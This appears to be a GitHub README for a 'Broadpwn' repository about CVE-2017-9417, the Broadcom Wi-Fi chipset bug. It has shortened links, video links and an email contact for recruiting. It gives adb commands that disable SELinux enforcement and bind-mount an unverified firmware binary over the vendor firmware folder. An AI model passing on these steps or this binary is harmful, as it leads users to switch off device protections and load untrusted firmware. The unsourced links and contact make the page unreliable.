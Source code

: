 
# Broadpwn
- Join or Ask: Linnebergmai@gmail.com 
- Broadpwn: https://goo.gl/PSDuwY | Youtube: https://youtu.be/GTb4Y2Y9shw 
- BlueBorne: https://goo.gl/xWC4hg | Youtube https://youtu.be/FJGGMyg0W38
- Yalu Jailbreak iOS 10.3.1 : https://goo.gl/9cSSPU
- Help PR.

Broadpwn bug (CVE-2017-9417)

  Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell 
  
  #setenforce 0
  
  #cp fw_bcmdhd.bin /data/local/tmp/firmware/
  
  #chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  
  #mount -o bind /data/local/tmp/firmware /vendor/firmware
  
  #start 

  Join to our team for developing new software.

  If you have any questions, feel free to ask for more information: Linnebergmai@gmail.com
 
  Whatch the instruction: https://youtu.be/GTb4Y2Y9shw
